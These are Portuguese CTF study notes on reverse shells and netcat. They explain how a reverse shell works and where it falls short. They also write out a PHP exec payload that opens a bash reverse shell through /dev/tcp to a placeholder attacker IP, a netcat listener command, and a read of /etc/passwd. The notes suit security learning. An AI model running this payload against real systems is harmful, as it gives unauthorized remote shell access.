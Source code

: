 # Shell Reverse (CTF)

O shell reverso é uma técnica para obter um terminal remoto em outro computador invertendo a direção da conexão: em vez de você se conectar ao servidor, é o servidor que se conecta ao seu computador. Isso cria um terminal remoto que permite executar comandos no servidor a partir do seu computador.

## Como funciona (resumido)
- O atacante prepara um computador para escutar conexões.  
- O computador alvo (servidor) executa um programa que abre uma conexão de saída para o computador do atacante.  
- Quando a conexão é estabelecida, o atacante passa a ter um shell (terminal) no servidor e pode executar comandos remotamente.

## Vantagem dessa abordagem
- Funciona em ambientes onde o servidor está protegido por firewall ou NAT que bloqueiam conexões de entrada e conexões de saída costumam ser permitidas.

## Limitações e riscos
- O acesso pode ser temporário: se o servidor trocar de IP, for reiniciado, ou perder a conexão, é preciso refazer o processo.  
- Firewalls, sistemas de detecção e políticas de rede podem bloquear ou detectar a conexão de saída.  
- Manter acesso por muito tempo aumenta a chance de ser detectado e bloqueado.

## Ferramentas
- Existem ferramentas simples (como o netcat) que permitem configurar um lado para escutar e outro para conectar.

## O que o atacante faz quando tem o shell
- Ele digita comandos no terminal do próprio computador; esses comandos são executados diretamente no servidor alvo — é como ter um terminal físico ligado naquele servidor.

# Netcat

É uma ferramenta que permite ler e escrever dados pela rede usando o protocolo TCP ou UDP.

## Execução do Netcat

**No nosso terminal:**
- `NC -NVLP 80`  ← listening mode na porta 80

**Na entrada da máquina alvo:**
- `echo exec("whoami");`
- `exec("/bin/bash -c 'bash -i >& /dev/tcp/IP_ATACANTE/80 0>&1'");`
  - (exec() executa o código no terminal do sistema e retorna o resultado no nosso terminal)
- `cat /etc/passwd` → Verificar todos os usuários

---

> **Observações:**  
> - Substitua `IP_ATACANTE` pelo IP da máquina do atacante que está escutando.  
> - Dependendo da linguagem/ambiente do alvo (PHP, bash, python, etc.) a sintaxe do payload pode variar e precisar de escapes diferentes.  
> - Teste em ambiente controlado e só execute em alvos com autorização explícita.
